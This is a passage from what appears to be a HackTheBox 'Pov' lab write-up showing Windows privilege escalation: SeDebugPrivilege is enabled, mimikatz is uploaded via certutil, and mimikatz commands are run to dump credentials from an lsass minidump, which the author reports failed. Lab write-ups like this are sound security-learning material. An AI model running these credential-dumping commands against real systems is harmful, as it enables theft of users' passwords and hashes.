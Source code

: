 When we run it, we can see SeDebugPrivilege enabling:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/pov/image-26.png)

#### mimikatz

Let's first try dumping credentials using mimikatz. 

We will upload mimikatz.exe using certutil:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/pov/image-22.png)

We tried dumping logonpasswords, but it wasn't successful for some reason:

```cmd
mimikatz.exe
mimikatz # log
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/pov/image-23.png)
